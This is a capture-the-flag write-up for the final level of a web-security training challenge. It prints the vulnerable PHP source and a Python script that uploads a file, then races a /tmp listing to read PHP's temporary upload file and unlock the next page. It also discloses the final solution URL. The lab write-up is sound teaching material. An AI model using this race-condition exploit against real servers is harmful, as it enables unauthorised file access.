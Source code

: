 # Level-30

Level30(Final) (https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/)

Send this request:

```text
https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

if (isset($_GET["show-me-more"])) {
    print_r(scandir("/tmp/"));
    die();
}

function security_check($input)
{
    $pattern = '/^\/tmp\/[0-9a-zA-Z]+$/';
    if (preg_match($pattern, $input)) {
        return True;
    }
    return False;
}

if (security_check($_GET['code'])) {
    $file_contents = file_get_contents($_GET['code']);
    if (strpos($file_contents, 'escape_from_matrix') === 0) {
        require_once('next.php');
        die($next);
    }
}

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Check if there is a file selected
    if (isset($_FILES["file"])) {
        $file = $_FILES["file"];

        // File details
        $fileName = $file["name"];
        $fileType = $file["type"];
        $fileSize = $file["size"];
        $fileTmpName = $file["tmp_name"];
        $fileError = $file["error"];

        $you_are_god = False;
        if ($you_are_god === True) {

            $uploadDir = "uploads/";
            if (!file_exists($uploadDir)) {
                mkdir($uploadDir, 0755, true);
            }

            $destination = $uploadDir . $fileName;
            if (move_uploaded_file($fileTmpName, $destination)) {
                echo "File uploaded successfully.";
            } else {
                echo "Error uploading file.";
            }
        }

        die('you are not the God');
    }
}

?>
```


according to the code we need these conditions:

- parameter `code` shoud start with `/tmp/`
- content of the file must begin with `escape_from_matrix`
- we need to upload a file to server
- we should immediately send the request to `https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/?show-me-more`
- we should get all the array values and send another request to get /tmp/ files

the python code :

```python
import requests
import re

main_url = 'https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/'

myfile = open("test.txt", "rb")

test_upload = requests.post(main_url, files={'file':myfile})
if test_upload.ok:
    print('uploaded')
print(test_upload.text)


show_me_more_url = 'https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/?show-me-more'
respons = requests.get(show_me_more_url)
print(respons.text)

chunks = re.findall('php.*',respons.text)

print(chunks)

for i in chunks:
    l_resp = requests.get(f'{main_url}?code=/tmp/{i}')
    print(l_resp.text)
```


  
go to:

```text
https://matrix.voorivex.academy/yOu-havE-jUst-escaped-the-Matrix!/
```
